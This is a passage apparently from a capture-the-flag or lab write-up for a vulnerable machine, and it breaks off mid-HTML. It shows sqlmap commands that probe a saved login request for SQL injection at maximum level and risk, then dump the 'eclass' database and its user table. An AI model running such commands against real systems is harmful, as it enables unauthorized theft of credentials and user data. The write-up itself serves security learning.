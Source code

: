 ```bash 
root@kali$ sqlmap -r eclasstestlogin –level=5 –risk=3 -v
```

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        <img class="img-fluid rounded z-depth-1" src="vulnuni5.png">
    </div>
</div>
<div class="caption">
    SQLmap being run in a VSCode terminal 
</div>     

```bash
root@kali$ sqlmap -r eclasstestlogin -v –current-db
root@kali$ sqlmap -r eclasstestlogin -v -D eclass –dump
root@kali$ sqlmap -r eclasstestlogin -v -D eclass -T user –dump
```  

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        <img class="img-fluid rounded z-depth-1" src="vulnuni6.png">